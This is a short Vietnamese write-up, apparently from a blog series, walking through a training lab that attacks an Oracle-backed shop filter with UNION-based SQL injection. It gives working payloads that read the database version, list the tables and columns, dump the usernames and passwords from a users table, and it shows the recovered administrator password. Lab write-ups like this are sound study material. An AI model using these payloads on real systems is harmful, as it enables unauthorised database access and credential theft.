






Lại là Lâm đây

Xin chào các bạn đã trở lại series này hôm nay lại là bài SQLi

++ Tấn công tiêm nhiễm SQL, liệt kê nội dung cơ sở dữ liệu trên Oracle vẫn là Oracle bắt đầu nào

Đề bài yêu cầu như lab5 và thay vì Potgres thì bây giờ là Oracle

 Giao diện bây giờ sẽ là như này:

sử dụng payload này vì Db query ra 2 cột nên cỏ vể là dùng
                                         ' UNION SELECT BANNER,NULL FROM v$version--

Vâng nó đã hoạt động 
Tiếp theo đó là list column nó ra với tất cả kiến thức của bạn:)) còn tôi thì search thôi 

                                        filter?category=Gifts%27%20UNION%20SELECT%20table_name,NULL%20FROM%20all_tables--
 sẽ trả ra rất nhiều table mà liên quan đến admintrator thì chỉ có user thôi theo kinh nghiệm code của tôi
 
  có vẻ như nó đây rồi bây giờ thì việc của bạn là list colums trong table USERS_CDFZIO
 tôi sẽ sử dụng câu lệnh bypass này :
                                        ' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_CDFZIO'--

chắc chắn là đúng hướng rồi bây giờ thì lấy ra username và passwd thôi 
                                        %27%20UNION%20SELECT%20USERNAME_IYSSEC,PASSWORD_GRNRSJ%20FROM%20USERS_CDFZIO--
nó Url encode rồi nên cũng không sao bạn tự đọc nhé và thành công

password của administrator là 69zqi08frexxhxhgos71 thực ra tôi code python brute force cũng được nhưng mà sẽ mấy mấy ngày đấy:(((
                                        chúc bạn thành công Author : l3mh0cr3d